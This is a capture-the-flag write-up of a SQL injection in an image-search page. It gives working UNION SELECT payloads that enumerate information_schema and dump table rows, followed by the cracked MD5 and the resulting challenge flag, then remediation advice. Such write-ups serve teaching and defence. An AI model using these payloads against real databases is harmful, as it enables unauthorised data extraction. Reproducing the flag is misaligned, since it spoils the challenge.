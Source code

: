# SQL Injection - Image Search

## Vulnerability:
A SQL Injection vulnerability allows user-controlled input to be used in `UNION SELECT` payloads against the image listing functionality. This permitted discovery of the `list_images` table, enumeration of its columns, and extraction of row data. A MD5 value found in a `comment` column was decoded and transformed to produce the challenge flag.

## Weakness:
- User input is concatenated into SQL queries (no parameterized queries / prepared statements).
- Information schema is accessible to the application DB user, enabling metadata enumeration.
- Sensitive data (or hints) are stored in database columns using weak/fast hashes (MD5), allowing offline cracking.
- No WAF, input filtering or query-level protections to block SQLi patterns.

## Exploitation:
1. Found table `list_images` using a UNION query against `information_schema.tables`:
   ```sql
   1 AND 1=0 UNION SELECT table_name, null
   FROM information_schema.tables
   WHERE table_schema=database()--
Result: list_images

Enumerated columns of list_images using information_schema.columns:

1 AND 1=0 UNION SELECT column_name, null
FROM information_schema.columns
WHERE table_name=CHAR(108,105,115,116,95,105,109,97,103,101,115)--


Found columns: id, url, title, comment

Dumped concatenated row data from list_images:

1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images


Key extracted row (sanitized):

Title: 5borntosec.ddns.net/images.png Hack me ? If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46


The comment field contained the MD5: 1928e8083cf461a51303633093573c46

Cracked MD5 to plaintext and derived flag:

MD5 1928e8083cf461a51303633093573c46 → albatroz (via CrackStation or equivalent)

SHA256(albatroz) → f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

Flag:
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


(Place the flag in the flag file inside the challenge folder. Do not include plaintext credentials in public reports.)

PoC (sanitized payloads):
-- Discover tables
1 AND 1=0 UNION SELECT table_name, null
FROM information_schema.tables
WHERE table_schema=database()--

-- Enumerate columns for 'list_images'
1 AND 1=0 UNION SELECT column_name, null
FROM information_schema.columns
WHERE table_name=CHAR(108,105,115,116,95,105,109,97,103,101,115)--

-- Dump concatenated data
1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images


Use these payloads only in authorized / CTF environments. Capture sanitized logs and screenshots as evidence.

How to Fix:

Use parameterized queries / prepared statements for all database interactions; never concatenate user input into SQL.

Restrict database user privileges (avoid exposing metadata access if not required).

Do not store secrets or challenge hints using fast hashes like MD5; use slow, salted algorithms (Argon2, bcrypt) for real credentials.

Implement input validation and a WAF or query filtering to detect/block SQLi payloads.

Remove or sanitize any content in database fields that may contain instructions or executable data served back to users.

Log and alert on suspicious enumeration patterns (information_schema queries, GROUP_CONCAT output, repeated UNION attempts).

Conduct regular security testing (DAST/SAST) and code review focusing on injection risks.